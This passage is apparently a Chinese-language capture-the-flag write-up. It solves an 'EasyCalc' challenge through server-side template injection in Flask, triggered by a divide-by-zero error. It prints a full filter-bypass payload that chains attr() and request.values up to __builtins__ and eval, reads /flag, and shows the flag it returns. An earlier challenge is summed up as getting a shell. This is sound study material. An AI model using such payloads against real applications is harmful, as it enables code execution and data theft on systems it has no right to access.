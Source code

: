 直接上Payload

![Perl_open.png](http://24ec021532e6b02e3e203385287a1607.replace/f179c33ed865fa6c604f62c50a7ad0f4)

getshell, cat /flag.

---

### EasyCalc

显然是个计算器，开始尝试了好久，发现是Flask + python ast 实现，但是 ast 基本全都被禁用了，卡了好久。。。。。  
后来放出Hint发现是除0报错然后模板注入。。。。。

先构造简单的 payload

```python
1 / 0 # {{ 8*8 }}
```

发现回显是

```text
Formatted calculation:
1 / 0
Error:
Traceback (most recent call last): File "somewhere", line something, in something result = 1 / 0 # 64 ZeroDivisionError: division by zero
```

OK，存在模板注入，开始尝试。  
一番测试发现基本过滤了大部分特殊字符`[]"'__`等，网上找了一找，找到了[这篇文章](https://www.secpulse.com/archives/115367.html)

构造payload

```text
code=1 / 0 # {{ ()|attr(request.values.class)|attr(request.values.base)|attr(request.values.subclasses)()|attr(request.values.getitem)(64)|attr(request.values.init)|attr(request.values.globals)|attr(request.values.getitem)(request.values.builtins)|attr(request.values.getitem)(request.values.eval)(request.values.cmd)}}&class=__class__&base=__base__&subclasses=__subclasses__&getitem=__getitem__&init=__init__&globals=__globals__&builtins=__builtins__&eval=eval&cmd=open('/flag').read()
```

返回值

```text
Formatted calculation:
1 / 0
Error:
Traceback (most recent call last): File "somewhere", line something, in something result = 1 / 0 # flag{5c2d13a15fb04fb0919c9881278398d2} ZeroDivisionError: division by zero
Formatted calculation:
```

ok, 过了

---

### UTF-8
